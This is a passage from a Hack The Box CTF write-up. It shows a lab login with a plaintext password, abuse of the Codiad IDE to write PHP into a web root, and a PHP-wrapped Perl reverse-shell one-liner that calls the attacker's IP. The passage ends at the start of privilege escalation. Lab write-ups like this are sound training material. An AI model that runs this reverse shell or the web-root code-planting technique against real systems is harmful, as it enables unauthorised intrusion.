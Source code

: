 ```
static::passed($test_name);
...
```

## Remote code execution through Codiad

I didn't see a `peter` user in `/etc/passwd` so the next logical place to try the credentials is on the `dev.player.htb` site. I can successfully log in with `peter / CQXpm\z)G5D#%S$y=`. I get a blank IDE page and I find a single project.

![](/assets/images/htb-writeup-player/codiad.png)

![](/assets/images/htb-writeup-player/codiad_projects.png)

The path of the project doesn't exist and errors out when I try to open it.

![](/assets/images/htb-writeup-player/codiad_error.png)

If I try to create a new project with an absolute path of `/tmp` I get the following error:

![](/assets/images/htb-writeup-player/codiad_abspath.png)

I just found the path for one of website: `/var/www/demo`. If I can create PHP files in there I might be able to get RCE. I'll create a new project using `/var/www/demo/snowscan` as path:

![](/assets/images/htb-writeup-player/codiad_abspath2.png)

To test PHP execution I just call `phpinfo()` and see that it works:

![](/assets/images/htb-writeup-player/codiad_phpinfo.png)

![](/assets/images/htb-writeup-player/phpinfo.png)

Next, I'll get a shell using perl with the following PHP code:

```php
<?php system('perl -e \'use Socket;$i="10.10.14.11";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\''); ?>
```

Finally, I get a shell as `www-data`.

![](/assets/images/htb-writeup-player/shell.png)

## Privesc

Now it's time to get root. I see some weird script running but I can't read `dothis.sh` so I don't know what it does.

```
root       990  0.0  0.0   4456   680 ?        Ss   01:23   0:00 /bin/sh -c /etc/init.d/dothis.sh
root       991  0.0  0.4  13896  4392 ?        S    01:23   0:03 /bin/bash /etc/init.d/dothis.sh

www-data@player:/$ more /etc/init.d/dothis.sh
/etc/init.d/dothis.sh: Permission denied
```
